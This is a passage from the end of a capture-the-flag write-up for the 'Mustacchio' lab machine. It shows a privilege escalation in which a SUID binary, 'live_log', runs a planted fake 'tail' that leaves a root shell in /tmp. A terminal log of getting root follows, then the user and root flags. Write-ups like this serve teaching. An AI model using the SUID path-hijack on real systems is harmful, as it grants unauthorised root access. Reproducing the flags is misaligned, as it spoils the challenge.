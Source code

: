 - That part is done, for the final blow we just have to execute that SUID `live_log` and after that execute `/tmp/bash -p` and BOOM! We are root!

  ```
  barry@mustacchio:/tmp$ cd /home/joe
  barry@mustacchio:/home/joe$ ls -al
  total 28
  drwxr-xr-x 2 joe  joe   4096 Jun 12  2021 .
  drwxr-xr-x 4 root root  4096 Jun 12  2021 ..
  -rwsr-xr-x 1 root root 16832 Jun 12  2021 live_log
  
  barry@mustacchio:/home/joe$ ./live_log 
  Live Nginx Log Readerbarry@mustacchio:/home/joe$ ls /tmp
  bash  tail
  
  barry@mustacchio:/home/joe$ /tmp/bash -p
  bash-4.3# whoami
  root
  bash-4.3# id
  uid=1003(barry) gid=1003(barry) euid=0(root) egid=0(root) groups=0(root),1003(barry)
  bash-4.3# cat /root/root.txt
  3223581420d906c4dd1a5f9b530393a5
  ```

- IMPORTANT NOTE !!! You see that before executing `live_log` there was no `bash` binary in `/tmp` directory and after executing SUID, `bash` was created in `/tmp`. That must be done this way in order for exploit to work.
  If you don't see `bash` after executing the SUID, you did something wrong. If that happens, remove fake `tail` and create new one and start all steps again from step 1.

---

## 🏁 Flags

- **User Flag**: `62d77a4d5f97d47c5aa38b3b2651b831`
- **Root Flag**: `3223581420d906c4dd1a5f9b530393a5`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Initial access was a bit tricky.`

- What did I learn?
  `New exploitation and privilege escalation.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
